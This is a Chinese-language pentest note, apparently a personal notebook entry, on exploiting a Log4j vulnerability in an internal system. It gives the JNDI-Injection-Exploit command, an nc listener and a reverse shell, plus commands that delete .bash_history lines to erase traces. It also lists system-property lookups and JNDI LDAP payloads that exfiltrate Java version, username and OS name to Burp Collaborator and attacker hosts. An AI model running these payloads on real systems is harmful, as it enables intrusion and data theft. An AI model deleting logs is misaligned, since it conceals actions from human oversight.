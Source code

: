 测一个内网的系统，发现bp插件扫出来存在log4j漏洞<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640588280600-d5e649f9-9d2c-4633-809e-5230b91d9796.png#clientId=u1d411766-baa2-4&from=paste&height=425&id=ubbe77569&originHeight=849&originWidth=972&originalType=binary&ratio=1&rotation=0&showTitle=false&size=126901&status=done&style=none&taskId=u80d267c0-6d87-4ea3-a005-e004b8d55ba&title=&width=486)

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "执行的命令" -A "服务器本身ip"  ， 同时开启nc监听对应的端口<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640588348748-962bba80-5dee-49e1-a636-66cb88006eed.png#clientId=u1d411766-baa2-4&from=paste&height=341&id=u5cdddc76&originHeight=681&originWidth=1463&originalType=binary&ratio=1&rotation=0&showTitle=false&size=132531&status=done&style=none&taskId=u9c052e9a-4dab-40ab-83ac-dbe7229f045&title=&width=731.5)<br />请求包发送rmi攻击payload<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640588406638-02a61d0c-3e9b-41b2-9cd2-e0fe0d52dc00.png#clientId=u1d411766-baa2-4&from=paste&height=360&id=ud253fc98&originHeight=720&originWidth=1693&originalType=binary&ratio=1&rotation=0&showTitle=false&size=121603&status=done&style=none&taskId=u8d31e1de-2db1-4139-87d4-d481fbc2246&title=&width=846.5)<br />成功获取反弹shell ，发现history全都是base解密后的bash反弹shell日志<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1640588459459-de33c3fe-9568-43cb-97da-880154348f75.png#clientId=u1d411766-baa2-4&from=paste&height=521&id=u1a97c25e&originHeight=676&originWidth=527&originalType=binary&ratio=1&rotation=0&showTitle=false&size=70513&status=done&style=none&taskId=u1a6ac821-2254-4f7c-8407-329011c5d00&title=&width=406.5)

半交互下删除history痕迹<br />sed '96,$d' -i .bash_history  删除从第96行（包括第96行）到文件末尾的所有行<br />history -r  更新一下



```java
id        usage
1        ${sys:awt.toolkit}
2        ${sys:file.encoding}
3        ${sys:file.encoding.pkg}
4        ${sys:file.separator}
5        ${sys:java.awt.graphicsenv}
6        ${sys:java.awt.printerjob}
7        ${sys:java.class.path}
8        ${sys:java.class.version}
9        ${sys:java.endorsed.dirs}
10        ${sys:java.ext.dirs}
11        ${sys:java.home}
12        ${sys:java.io.tmpdir}
13        ${sys:java.library.path}
14        ${sys:java.runtime.name}
15        ${sys:java.runtime.version}
16        ${sys:java.specification.name}
17        ${sys:java.specification.vendor}
18        ${sys:java.specification.version}
19        ${sys:java.vendor}
20        ${sys:java.vendor.url}
21        ${sys:java.vendor.url.bug}
22        ${sys:java.version}
23        ${sys:java.vm.info}
24        ${sys:java.vm.name}
25        ${sys:java.vm.specification.name}
26        ${sys:java.vm.specification.vendor}
27        ${sys:java.vm.specification.version}
28        ${sys:java.vm.vendor}
29        ${sys:java.vm.version}
30        ${sys:line.separator}
31        ${sys:os.arch}
32        ${sys:os.name}
33        ${sys:os.version}
34        ${sys:path.separator}
35        ${sys:sun.arch.data.model}
36        ${sys:sun.boot.class.path}
37        ${sys:sun.boot.library.path}
38        ${sys:sun.cpu.endian}
39        ${sys:sun.cpu.isalist}
40        ${sys:sun.desktop}
41        ${sys:sun.io.unicode.encoding}
42        ${sys:sun.java.command}
43        ${sys:sun.java.launcher}
44        ${sys:sun.jnu.encoding}
45        ${sys:sun.management.compiler}
46        ${sys:sun.os.patch.level}
47        ${sys:sun.stderr.encoding}
48        ${sys:user.country}
49        ${sys:user.dir}
50        ${sys:user.home}
51        ${sys:user.language}
52        ${sys:user.name}
53        ${sys:user.script}
54        ${sys:user.timezone}
55        ${sys:user.variant}
```
${jndi:ldap://${sys:java.version}.qsmdx3codwj58v3trcivswbfn6txhm.burpcollaborator.net/sWM}

${jndi:ldap://${sys:user.name}.5bhsgiv3wb2kram8ar1abbuu6lcb00.burpcollaborator.net/sWM}<br />${sys:os.name}

 java.home<br />${jndi:ldap://xxx:1389/${sys:os.name}}<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1642561565469-9b4687bc-2f7c-413a-b55f-b2a82b93a080.png#clientId=u21c53a69-5b7d-4&from=paste&height=151&id=u9ca7bc98&originHeight=166&originWidth=339&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9025&status=done&style=none&taskId=udec11742-6227-427e-987e-fde072a8a47&title=&width=308.5)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1642562767248-dd927159-8d3d-4ab5-a371-de6e9c2cbce4.png#clientId=ufeed7018-95ed-4&from=paste&height=287&id=u3d87ca38&originHeight=573&originWidth=1734&originalType=binary&ratio=1&rotation=0&showTitle=false&size=134082&status=done&style=none&taskId=ud6b73cc9-f8a9-4e35-893a-93f811b6a7f&title=&width=867)
